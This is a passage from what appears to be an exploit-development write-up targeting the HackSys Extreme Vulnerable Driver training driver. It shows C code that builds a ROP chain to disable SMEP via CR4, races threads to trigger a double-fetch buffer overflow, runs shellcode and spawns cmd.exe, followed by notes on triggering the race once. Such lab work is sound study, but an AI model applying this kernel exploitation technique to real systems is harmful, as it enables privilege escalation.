 ```c
    const u64 MOV_CR4_RCX = kernelBase + 0x9aa31b; // mov cr4, rcx; ret;

    const u64 offset = 2072;
    u64* rop = (u64*)((u64)buffer + offset);

    u64 index = 0;
    *(rop + index++) = POP_RCX;
    *(rop + index++) = 0xb50ef8 ^ 1UL << 20;
    *(rop + index++) = MOV_CR4_RCX;
    *(rop + index++) = (u64)shellcode;

    // Trigger the overflow

    IRP_ARGS pIRPArgs = {
        .hHEVD  = hHEVD,
        .hEvent = hEvent,
        .pDoubleFetch.Buffer = buffer,
        .pDoubleFetch.Size   = 0,
    };

    HANDLE hThreadWork[NUM_THREADS] = { 0 };
    HANDLE hThreadRace[NUM_THREADS] = { 0 };
    
    for (u64 i = 0; i < NUM_THREADS; i++) {
        hThreadWork[i] = CreateThread(NULL, 0, DeviceIoControlThread, &pIRPArgs, 0, NULL);
        hThreadRace[i] = CreateThread(NULL, 0, SizeChaingingThread,   &pIRPArgs, 0, NULL);
    }

    printf("Waiting for the race to trigger...\n");
    WaitForSingleObject(hEvent, INFINITE);

    STARTUPINFOW        si = { .cb = sizeof(STARTUPINFOW) };
    PROCESS_INFORMATION pi = { 0 };

    if (CreateProcessW(L"C:\\Windows\\System32\\cmd.exe",
        NULL, NULL, NULL, FALSE, 0, NULL, NULL,
        &si, &pi))
    {
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hThread);
        CloseHandle(pi.hProcess);
    }

    return 0;
}
```

## Exactly-Once Delivery

Compared to the original triggering of the TOCTOU buffer overflow, I wanted to trigger it exactly once. The first step was to run a single `SizeChaingingThread` thread and a single `DeviceIoControlThread` thread. This makes controlling everything with thread synchronization primitives easier.
